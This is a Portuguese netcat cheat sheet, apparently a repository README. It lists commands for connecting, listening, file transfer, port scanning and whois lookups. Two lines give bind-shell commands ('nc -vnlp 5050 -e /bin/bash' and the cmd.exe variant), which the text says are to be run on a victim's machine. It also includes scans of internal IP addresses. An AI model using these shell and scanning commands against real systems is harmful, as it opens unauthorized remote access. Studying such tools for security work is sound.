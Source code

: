 # NC
Pode ser usado: nc | ncat | netcat.

nc ==> Executa o netcat.
nc -h ==> Help do netcat.
nc 172.16.1.4 110 ==> Conecta no IP 172.16.1.4 na porta 110 TCP.
nc www.grandbusiness.com.br 21 ==> Conecta ao site através da porta 21.
nc -v 172.16.1.4 ==> Verbose mode.
netstat -nlpt ==> Verifica portas abertas no sistema.
nc -vlp 5050 ==> -v [verbose mode], l [listening], p [port], abertura de porta.
nc -vlup 9000 ==> -v [verbose mode], l [listening], u [UDP], p [port], abertura de porta.
nc -u 127.0.0.1 9000 ==> Conecta na porta 9000 UDP no IP 127.0.0.1.
nc -vlp 80 < servidor.txt ==> Envia o arquivo "servidor.txt" na conexão.
nc -lnvp 5050 > ncat.exe ==> Envia tudo que chegar para o arquivo ncat.exe.
nc -vn 192.168.0.105 5050 < ncat.exe ==> Envia o arquivo "ncat.exe" na conexão.

nc -vnlp 5050 -e /bin/bash ==> Executa o /bin/bash
nc -vnlp 5050 -e cmd.exe ==> Executa o CMD
* Os dois comandos acima são um modelo de shell simples onde devem ser executadas na máquina da vítima.

Escaneando portas:  
``nc -vnz 172.16.1.5 19-30`` Será escaneado da porta 19 atá a 30.  
``nc -vnz 172.16.1.5 22`` Será escaneado somente a porta 22.
``nc -vnz -w2 172.16.1.5 22`` Será escaneado levando em consideração o Timeout de 2 segundos [-w2].
``nc -vnzu -w 172.16.1.5 22`` Será feito o escaneamento UDP [u].

Vericando whois pelo NC:  
``nc -v 200.160.2.3 43  
globo.com``
* A porta 43 é utilizada pelo WHOIS.
* O IP 200.160.2.3 é do registro.br.
